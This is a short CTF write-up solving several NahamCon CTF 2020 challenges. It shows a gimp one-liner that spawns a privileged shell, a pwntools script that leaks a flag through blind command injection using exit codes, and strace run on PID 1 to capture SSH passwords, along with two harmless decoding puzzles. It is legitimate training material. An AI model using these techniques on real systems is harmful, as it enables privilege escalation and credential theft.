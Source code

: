 # NahamCon CTF 2020

## The Scraps

I rarely do write-ups for small 1-2 line solves, but then all that history gets lost and is hard to find later when I need it, so, here's a rundown of some of the easy ones, you know, for the points.

> All I could find, post CTF on my <strike>HD</strike> SSD.


### Glimpse

```
125

There's not a lot to work with on this server. But there is something...

Connect here:
ssh -p 50027 user@jh2i.com # password is 'userpass'
```

Google for GTFOBins:

```bash
$ gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.execl("/bin/sh", "sh", "-p")'
(gimp:25615): GLib-GObject-WARNING **: 18:26:38.010: g_object_set_is_valid_property: object class 'GeglConfig' has no property named 'cache-size'
Failed to parse tag cache: No such file or directory
GIMP-Error: Could not open '/home/user/.gimp-2.8/pluginrc' for writing: Read-only file system
GIMP-Warning: Unable to open a test swap file.
To avoid data loss, please check the location and permissions of the swap directory defined in your Preferences (currently "/home/user/.gimp-2.8").
# cd /root
# ls -l
total 4
-r-------- 1 root root 44 Jun  4 18:53 flag.txt
# cat flag.txt
flag{just_need_a_glimpse_of_the_flag_please}
```

### Awkward

```
125

No output..? Awk-o-taco.

Connect here:
nc jh2i.com 50025
```

Using exit codes to leak info.  Ok, more than 1-2 lines, but still easy, and will never use again:

```python
#!/usr/bin/python3

from pwn import *

p = remote('jh2i.com', 50025)
s = 'cat $(find . -name flag.txt) | grep flag{'
dots = 0

while True:
    ss = s + dots * '.'
    ss += '}'
    p.sendline(ss)
    _ = p.recvline().strip()
    if _[0] == ord('0'):
        break
    dots += 1

print('flag length',dots)
letters = '_abcdefghijklmnopqrstuvwxyz-0123456789@ABCDEFGHIJKLMNOPQRSTUVWXYZ.'

for i in range(dots):
    for j in letters:
        ss = s + j
        p.sendline(ss)
        _ = p.recvline().strip()
        if _[0] == ord('0'):
            s += j
            print('flag',s)
            break

print('flag',s + '}')
```


### SSH Logger

```
175

Someone keeps logging in to this server... can you find their password?

Connect here:
ssh -p 50029 root@jh2i.com # password is 'root'
```

Oldskool, Google for _how to read ssh passwords with strace_:

```bash
# strace -f -p 1 2>&1 | grep read | grep flag
[pid 24395] read(6, "\10\0\0\0\4flag", 9) = 9
[pid 24395] read(6, "\f\0\0\0\33flag{okay_so_that_was_cool}", 32) = 32
```


### Beep Boop

```
50

That must be a really long phone number... right?

Download the file below.
```

I love DTMF.  It is [central to hacker history](https://www.amazon.com/gp/product/080212061X).  It is completely useless to have in CTFs, but it is [important hacker history](https://www.amazon.com/gp/product/080212061X), and I welcome any retro challenge.

> If you didn't get the hint, read this [book](https://www.amazon.com/gp/product/080212061X)!

Get a Ubuntu 16.04 container for this:

```bash
# multimon -a DTMF -t wav flag.wav | grep DTMF: | awk '{print $NF}' | xargs | sed 's/ //g'
46327402297754110981468069185383422945309689772058551073955248013949155635325
# python3
>>> bytes.fromhex(hex(46327402297754110981468069185383422945309689772058551073955248013949155635325)[2:])
b'flag{do_you_speak_the_beep_boop}'
```


### Big Bird

```
100

Big Bird is communicating with us in a whole new way! But... how?

Connect here:
https://twitter.com/BigBird01558595
```

_Groan_

2-liner:

```bash
GetOldTweets3 --username "BigBird01558595" --maxtweets 1000
$ zbarimg <(cat output_got.csv | awk -F, '{print $7}' | awk -F\" '{print $2}' | awk -F\# '{print $2}' | sort -n | awk '{print $NF}' | xargs printf "%02x" | xxd -r -p) 2>&1 | grep QR | awk -F: '{print $NF}'
flag{big_bird_tweets_big_tweets}
```

At least I learned about `GetOldTweets3`.
